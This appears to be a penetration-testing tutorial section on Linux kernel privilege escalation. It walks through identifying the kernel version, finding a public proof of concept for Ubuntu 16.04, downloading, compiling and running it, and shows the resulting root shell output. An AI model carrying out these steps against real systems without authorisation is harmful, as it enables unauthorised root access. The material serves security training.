 # Kernel Exploits

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is Dirty COW `*https://github.com/dirtycow/dirtycow.github.io*` (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.`

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command uname -a and search Google for the kernel version.

<Note: Kernel exploits can cause system instability so use caution when running these against a production system.>

# Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

> uname -a

<Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux>

> cat /etc/lsb-release 

    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with this (https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using wget or another file transfer method. We can compile the exploit code using `gcc` (https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

> gcc kernel_expoit.c -o kernel_expoit && chmod +x kernel_expoit

Next, we run the exploit and hopefully get dropped into a root shell.

> /kernel_expoit 

    task_struct = ffff8800b71d7000
    uidptr = ffff8800b95ce544
    spawning root shell

Finally, we can confirm root access to the box.

> whoami

    root